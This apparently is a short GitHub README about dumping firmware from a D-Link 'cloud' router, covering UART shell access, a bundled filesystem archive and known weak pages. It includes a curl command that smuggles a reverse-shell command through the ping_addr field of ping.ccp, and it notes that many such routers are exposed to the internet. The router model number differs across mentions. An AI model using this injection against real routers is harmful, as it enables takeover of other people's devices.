 # Taking a dumparooski from a Dlink DIR363L "cloud" router.

DLink D636L "Cloud Router". Has RT6856F CPU, soic16 flash rom on the backside of the PCB, 1gig ports, nvme/tiny pci slot for wifi card, and thruholes for uart pins. UARTing into this thing will get you a shell, 115200 should work. Standard cheap MIPS environment. Easy to build revsh's and rats, lots of these exposed to the WAN.
<BR><BR>
dir636l.tar.gz has the whole filesystem (not scrubbed for addresses or serials, im not using this thing in prod ever so enjoy). Still has vulns, great as a practice target. Look for tools_vst.asp and/or ping.ccp when hunting for juice on this device. "curl -X POST --data 'ccp_act=ping_v6&ping_addr=$(SUPER NIFTY REVERSE SHELL HERE)' -i http://target-router/ping.ccp"
